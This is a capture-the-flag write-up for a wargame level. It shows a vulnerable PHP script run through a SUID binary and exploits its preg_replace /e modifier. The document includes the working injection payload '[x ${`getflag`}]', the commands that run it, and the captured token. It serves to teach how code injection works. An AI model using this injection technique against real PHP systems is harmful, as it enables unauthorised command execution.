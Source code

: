 
# Level06 Documentation

## Objective
Retrieve the token for `level07` by exploiting insecure PHP code execution via a SUID binary owned by `flag06`.

## Approach & Tools
- **Technique**: PHP code injection via `preg_replace /e` vulnerability.
- **Tools**: `echo`, `getflag`, shell backticks.

## Step-by-Step Solution

When logged in as `level06`, we see two files:
```bash
ls -l
```
Output:
```bash
-rwsr-x---+ 1 flag06 level06 7503 level06
-rwxr-x---  1 flag06 level06  356 level06.php
```

### 1. Analyze the Binary

Run the binary without arguments:
```bash
./level06
```
Output:
```bash
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

Run it with an argument:
```bash
echo "test" > /tmp/test
./level06 /tmp/test
```
Output:
```bash
test
```

### 2. Analyze the PHP Script

```php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
```

### 3. Exploit the `/e` Modifier

The line:
```php
preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```
uses the deprecated and dangerous `/e` modifier, which **evaluates the replacement string as PHP code**.

If the file contains:
```txt
[x ${`getflag`} ]
```
then the script evaluates:
```php
y("${`getflag`}")
```
💥 This runs the `getflag` command via shell execution **before** `y()` is called.

---

### 4. Inject and Capture the Token

Create the payload file:
```bash
echo '[x ${`getflag`}]' > /tmp/getflag06
./level06 /tmp/getflag06
```

#### Output:
```bash
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

---

### Key Takeaways

- **SUID Binaries**: Can be dangerous when they execute scripts with user-controlled inputs.
- **PHP /e Modifier**: A major code injection vector in older versions of PHP.
- **Shell Injection via Backticks**: Executing commands inside PHP strings allows arbitrary command execution.
